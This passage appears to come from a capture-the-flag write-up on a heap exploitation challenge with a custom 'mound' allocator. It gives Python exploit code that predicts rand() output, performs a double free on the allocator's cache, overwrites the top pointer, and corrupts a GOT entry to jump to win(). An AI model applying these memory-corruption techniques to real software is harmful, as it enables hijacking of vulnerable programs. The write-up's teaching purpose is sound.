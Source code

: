 Then I'd be able to free the same region of memory twice, like this:

```python
from ctypes import CDLL
libc = CDLL('libc.so.6')
# r = ...
libc.srand(libc.time(0)^r.pid) # pid will have to be guessed on remote
def rand64bit(): return libc.rand() + (libc.rand()<<32)
# ... omitted code ...
# ... make sure to account for rand() calls throughout code as well ...
while 1:
    add(sz=0x20, idx=0xf, b'hi')
	if not ((chunk_id := rand64bit()) >> 56): break
free(0xf)
rm_id(chunk_id)
free(0xf)
```

This is a classic tcache dup, except with the `mcache` instead. Once you accomplish this much, getting to `win()` isn't much of a challenge.

### Getting to `win()`

Right now, `mcache->entries[1] == [arr[0xf] -> arr[0xf]]`. `arr[0xf]->next` can be modified to anything, so long as `(mcache_entry*)(arr[0xf]->next)->mcache == mound_arena.mcache`. Taking a hint from the the definition, I'll try to point `->next` to `mound_arena.mcache-0x10`, because it's the only non-user-controlled region that happens to have an `mcache` pointer.

```python
add(0x20, 0xe, fit(0xbeef0000010, 0xdead0007ff8))
```

The linked list here is now `[arr[0xf] -> mound_arena+0x7ff8]`. As a reminder, the `mound_arena` looks like this:

```c
typedef struct mound_metadata {
    void *mound_base; // = 0xbeef0000000; never used for anything
    size_t ids[0x1000]; // rand64() ids assigned to every chunk allocated by mmalloc.
    mcache_struct *mcache; // tcache, but for the mound.
    mchunk *top; // pointer to the top chunk
} mound_metadata; // sizeof(mound_metadata) == 0x8018
```

Right after the `mcache` is the `top` pointer. Pulling two items off of the mcache linked list will get the `top` pointer overwritten with user-controllable data:

```python
add(0x20, 0xd, 'hi')
add(0x20, 0xc, fit(mound_data.mcache, context.binary.got['setvbuf']))
```

Here, I'm overwriting `mound_data.top` with a GOT pointer to gain RIP control:

```python
add(0x40, 0xb, pack(context.binary.sym.win)) # this will overwrite got.scanf()
```
